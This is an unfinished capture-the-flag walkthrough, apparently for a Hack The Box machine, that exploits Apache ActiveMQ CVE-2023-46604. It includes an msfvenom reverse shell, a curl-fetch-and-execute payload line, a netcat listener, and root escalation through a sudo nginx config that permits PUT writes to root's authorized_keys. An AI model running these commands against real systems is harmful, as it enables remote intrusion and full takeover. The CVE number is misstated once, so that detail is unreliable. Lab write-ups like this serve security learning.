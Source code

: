 *Not finished*

Firstly, the Apache ActiveMQ is on a port which is not grabbed by my standard nmap command:

```
nmap -sC -sV {ip}
```

This is a more exhaustive nmap search of all ports sending at least 1000 packets per second, with the timing template being 'insane':

```
nmap -p- --min-rate=1000 -T4 {ip}
```

Then run nmap with the -sC and -sV flags against the ports you find.

There is a repo on github that with code to help us exploit the Apache ActiveMQ vulnerability CVE-2023-46606:

```
wget https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-
ActiveMQ/archive/refs/heads/main.zip
unzip main.zip
cd CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ-main/
```

We need to create and ELF payload via msfvenom:

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.48 LPORT=4444 -f elf -o test.elf
```

Edit the poc-linux.xml file, changing the ip address to the webserver:

```
<value>curl -s -o test.elf http://10.10.14.48:8001/test.elf; chmod +x
./test.elf; ./test.elf</value>
```

Start an http server and netcat listener

```
python3 -m http.server 8001 &
nc -lvvp 4444
```

Run the github repo:

```
go run main.go -i 10.129.230.87 -p 61616 -u http://10.10.14.48:8001/poc-linux.xml
```

This gets us user access to the attacking box.

For Privilege Escalation, we can run:

```
sudo -l 

/usr/sbin/nginx
```

We learn that this user can run the nginx configuration file. 

We create pwn.conf in a temp directory by typing the following into the terminal:

```
cat << EOF> /tmp/pwn.conf
user root;
worker_processes 4;
pid /tmp/nginx.pid;

events {
        worker_connections 768;

}  
http {

    server {
        listen 1337;

        root /;
        autoindex on;

        dav_methods PUT;
    }

}
EOF
sudo nginx -c /tmp/pwn.conf
```

This was a challenge because normally I would use vim to create and edit a file, but I was not able to do this on the attacking box. After running `cat << EOF>> /tmp/pwn.conf`, I typed in the file above line by line, ending the input with EOF. This could be a useful technique in the future when editing with vim doesn't work on a target box.

We run the following commands to get root access:

```
$ssh-keygen

$curl -X PUT localhost:1337/root/.ssh/authorized_keys -d "$(cat root.pub)"

$ssh -i root root@localhost

$whoami
root

```
